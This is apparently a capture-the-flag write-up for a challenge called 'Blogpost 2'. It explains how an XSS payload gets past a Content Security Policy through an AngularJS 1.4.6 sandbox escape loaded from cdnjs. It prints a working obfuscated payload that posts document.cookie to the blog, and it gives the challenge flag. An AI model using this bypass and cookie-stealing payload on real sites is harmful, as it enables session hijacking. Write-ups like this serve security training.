




# Blogpost 2

### Description

Look out for my blog posts, again!!

# Solution

### Content Security Policy Bypass

I tried my previous payload, but XSS doesnt work due to CSP. So most likely I would have to bypass this.


The Content Security Policy is this

```
script-src 'self' 'unsafe-eval' 'https://cdnjs.cloudflare.com'
```


For any concept I'm unsure about, I tried to find a related Hacktricks resource

```js
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js"></script>
<div ng-app> {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1);//');}} </div>
```

https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass





## 2. Exploit

After some experimentation, I settled on this payload

```html
<span id=payload>
&Tab;&dollar;&period;ajax&lpar;&lcub;&NewLine;&Tab;&Tab;type&colon; &quot;POST&quot;&comma;&NewLine;&Tab;&Tab;url&colon; &quot;&sol;post&quot;&comma;&NewLine;&Tab;&Tab;data&colon; JSON&period;stringify&lpar;&lcub;&quot;title&quot;&colon;&quot;Cookie&quot;&comma; &quot;content&quot;&colon;document&period;cookie&rcub;&rpar;&comma;&NewLine;&Tab;&Tab;dataType&colon; &quot;json&quot;&comma;&NewLine;&Tab;&Tab;contentType &colon; &quot;application&sol;json&quot;&NewLine;&Tab;&rcub;&rpar;&period;done&lpar;function&lpar;response&rpar;&lcub;&NewLine;&Tab;&Tab;if &lpar;response&period;message &equals;&equals; &quot;Success&quot;&rpar;&lcub;&NewLine;&Tab;&Tab;&Tab;window&period;location&period;href &equals; &quot;&sol;blog&quot;&semi;&NewLine;&Tab;&Tab;&rcub;&NewLine;&Tab;&Tab;else &lcub;&NewLine;&Tab;&Tab;&Tab;console&period;log&lpar;response&period;message&rpar;&semi;&NewLine;&Tab;&Tab;&rcub;&NewLine;&Tab;&rcub;&rpar;&semi;
</span>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js"></script>
<div ng-app> {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };eval(document.getElementById("payload").innerText);//');}} </div>
```




# Flag

`STF22{cl0uDfl4r3!!_@nd_@ngu1ar_ar3_de_b35+}`

3rd solver

